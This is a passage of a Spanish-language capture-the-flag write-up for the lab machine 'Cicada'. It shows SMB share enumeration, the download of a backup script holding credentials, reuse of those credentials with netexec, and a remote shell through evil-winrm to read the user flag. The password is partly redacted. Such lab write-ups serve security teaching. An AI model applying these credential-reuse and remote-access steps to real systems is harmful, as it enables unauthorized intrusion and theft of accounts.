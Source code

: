 ~~~bash
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 08:31:39 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 13:28:22 2024

                4168447 blocks of size 4096. 482413 blocks available
smb: \> get Backup_script.ps1 
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (0.7 KiloBytes/sec) (average 0.7 KiloBytes/sec)
smb: \> exit
~~~
Dentro del recurso compartido se tiene un archivo backup interesante, por lo que viendo su contenido se ven otras credenciales que pueden ser reutilizadas y cabe la pena probarlas.
~~~bash
sudo netexec smb 10.10.11.35 -u 'emily.oscars' -p 'Q!<SNIP>Vt' --shares
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\emily.oscars:Q!<SNIP>Vt 
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$          READ            Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$              READ,WRITE      Default share
SMB         10.10.11.35     445    CICADA-DC        DEV                             
SMB         10.10.11.35     445    CICADA-DC        HR              READ            
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share
~~~
Al probar dichas credenciales, se tiene acceso a varias carpetas compartidas, esto es buena señal y da a lugar a ser un usuario con bastantes privilegios.

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Con las ultimas credenciales ya probadas y verificadas, se prueba intentar obtener acceso mediante winrm, obteniendo asi la user flag.
~~~powershell
evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!<SNIP>Vt'      
                                        
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> cd ..
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA> cd desktop
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\desktop> type user.txt
<Encuentre su user flag>
~~~

---
